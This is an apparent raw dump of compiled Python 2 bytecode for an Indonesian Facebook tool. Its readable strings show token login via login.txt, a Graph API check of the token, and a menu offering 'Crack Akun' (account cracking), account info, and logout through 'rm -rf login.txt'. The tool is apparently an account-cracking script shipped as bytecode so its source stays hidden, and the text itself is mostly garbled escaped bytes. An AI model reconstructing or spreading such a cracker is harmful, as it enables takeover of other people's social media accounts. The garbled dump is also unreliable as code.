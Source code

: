 <Sazxt>RZ\x00\x00\x00N\x00\x00\x00sh\x00\x00\x00\x00\x01\r\x01\x03\x01\x0f\x01\x0b\x01\x13\x01\r\x01\x05\x01\x05\x01\x05\x01\x0c\x01\x0c\x01\x07\x01\x03\x01\x11\x01\x10\x01\x05\x01\x0b\x01\x0c\x01\x10\x01\r\x01\r\x01\n\x01\x0c\x01\x0c\x01\x03\x01\x16\x01S\x01\x0f\x01\r\x01\x0c\x01\x14\x01\x06\x01\x15\x01\x12\x01\x0f\x01\x11\x01\n\x01\x05\x01\x15\x01\x0b\x01\x13\x01\x05\x01\x0e\x01\x0c\x01\x05\x01\r\x01\r\x01\n\x02\x05\x01\r\x01\r\x01c\x00\x00\x00\x00\x05\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00sc\x01\x00\x00t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01y\x19\x00t\x02\x00d\x02\x00d\x03\x00\x83\x02\x00j\x03\x00\x83\x00\x00}\x00\x00WnD\x00\x04t\x04\x00k\n\x00rl\x00\x01\x01\x01t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01d\x04\x00GHt\x00\x00j\x01\x00d\x05\x00\x83\x01\x00\x01t\x05\x00j\x06\x00d\x06\x00\x83\x01\x00\x01t\x07\x00\x83\x00\x00\x01n\x01\x00Xy=\x00t\x08\x00j\t\x00d\x07\x00|\x00\x00\x17\x83\x01\x00}\x01\x00t\n\x00j\x0b\x00|\x01\x00j\x0c\x00\x83\x01\x00}\x02\x00|\x02\x00d\x08\x00\x19}\x03\x00|\x02\x00d\t\x00\x19}\x04\x00Wnf\x00\x04t\r\x00k\n\x00r\xf0\x00\x01\x01\x01t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01d\x04\x00GHt\x00\x00j\x01\x00d\x05\x00\x83\x01\x00\x01t\x05\x00j\x06\x00d\x06\x00\x83\x01\x00\x01t\x0e\x00\x83\x00\x00\x01n#\x00\x04t\x08\x00j\x0f\x00j\x10\x00k\n\x00r\x12\x01\x01\x01\x01d\n\x00GHt\x07\x00\x83\x00\x00\x01n\x01\x00Xt\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01t\x11\x00GHd\x0b\x00GHd\x0c\x00|\x03\x00\x17d\r\x00\x17GHd\x0e\x00|\x04\x00\x17d\x0f\x00\x17GHd\x10\x00GHd\x11\x00GHd\x12\x00GHd\x13\x00GHt\x12\x00\x83\x00\x00\x01d\x00\x00S(\x14\x00\x00\x00NR$\x00\x00\x00s\t\x00\x00\x00login.txtR%\x00\x00\x00s\x1f\x00\x00\x00\x1b[1;96m[!] \x1b[1;91mToken invalids\x10\x00\x00\x00rm -rf login.txti\x01\x00\x00\x00s+\x00\x00\x00https://graph.facebook.com/me?access_token=t\x04\x00\x00\x00nameR\\\x00\x00\x00s#\x00\x00\x00\x1b[1;96m[!] \x1b[1;91mTidak ada koneksisp\x00\x00\x00\x1b[1;97m\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x97s7\x00\x00\x00\x1b[1;97m[\x1b[1;92m\xe2\x80\xa2\x1b[1;97m]\x1b[1;92m Nama \x1b[1;91m: \x1b[1;97ms\x19\x00\x00\x00\x1b[1;97m                  s7\x00\x00\x00\x1b[1;97m[\x1b[1;92m\xe2\x80\xa2\x1b[1;97m]\x1b[1;92m ID   \x1b[1;91m: \x1b[1;97ms\x15\x00\x00\x00\x1b[1;97m              sp\x00\x00\x00\x1b[1;97m\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x9ds2\x00\x00\x00\x1b[1;91m[\x1b[1;97m1\x1b[1;91m]\x1b[1;96m.\x1b[1;97m Crack AkunsE\x00\x00\x00\x1b[1;91m[\x1b[1;97m2\x1b[1;91m]\x1b[1;96m.\x1b[1;97m Informasi akun               s;\x00\x00\x00\n\x1b[1;91m[\x1b[1;97m0\x1b[1;91m]\x1b[1;96m.\x1b[1;91m Logout            (\x13\x00\x00\x00R\x05\x00\x00\x00R=\x00\x00\x00R>\x00\x00\x00t\x04\x00\x00\x00readRA\x00\x00\x00R\x1c\x00\x00\x00R\x1d\x00\x00\x00R\x08\x00\x00\x00RR\x00\x00\x00RS\x00\x00\x00RT\x00\x00\x00RU\x00\x00\x00RV\x00\x00\x00R@\x00\x00\x00RZ\x00\x00\x00RY\x00\x00\x00R\x01\x00\x00\x00RB\x00\x00\x00t\x05\x00\x00\x00pilih(\x05\x00\x00\x00R[\x00\x00\x00t\x03\x00\x00\x00otwR`\x00\x00\x00t\x04\x00\x00\x00namaR\\\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<Sazxt>R?\x00\x00\x00\x84\x00\x00\x00sB\x00\x00\x00\x00\x01\r\x01\x03\x01\x19\x01\r\x01\r\x01\x05\x01\r\x01\r\x01\x0b\x01\x03\x01\x13\x01\x12\x01\n\x01\x0e\x01\r\x01\r\x01\x05\x01\r\x01\r\x01\n\x01\x13\x01\x05\x01\x0b\x01\r\x01\x05\x01\x05\x01\r\x01\r\x01\x05\x01\x05\x01\x05\x01\x05\x01c\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00C\x00\x00\x00s\x9d\x00\x00\x00t\x00\x00d\x01\x00\x83\x01\x00}\x00\x00|\x00\x00d\x02\x00k\x02\x00r\'\x00d\x03\x00GHt\x01\x00\x83\x00\x00\x01nr\x00|\x00\x00d\x04\x00k\x02\x00r=\x00t\x02\x00\x83\x00\x00\x01n\\\x00|\x00\x00d\x05\x00k\x02\x00rS\x00t\x03\x00\x83\x00\x00\x01nF\x00|\x00\x00d\x06\x00k\x02\x00r\x8d\x00t\x04\x00j\x05\x00d\x07\x00\x83\x01\x00\x01t\x06\x00d\x08\x00\x83\x01\x00\x01t\x04\x00j\x05\x00d\t\x00\x83\x01\x00\x01t\x07\x00\x83\x00\x00\x01n\x0c\x00d\x03\x00GHt\x01\x00\x83\x00\x00\x01d\x00\x00S(\n\x00\x00\x00Ns\x14\x00\x00\x00\n\x1b[1;97m >>> \x1b[1;97mR\n\x00\x00\x00s \x00\x00\x00\x1b[1;91m[!] \x1b[1;97mIsi yang benarR/\x00\x00\x00t\x01\x00\x00\x002R5\x00\x00\x00R$\x00\x00\x00s\x0f\x00\x00\x00Menghapus tokens\x10\x00\x00\x00rm -rf login.txt(\x08\x00\x00\x00RC\x00\x00\x00Rd\x00\x00\x00t\x05\x00\x00\x00supert\t\x00\x00\x00informasiR\x05\x00\x00\x00R=\x00\x00\x00R \x00\x00\x00R\x08\x00\x00\x00(\x01\x00\x00\x00Ra\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00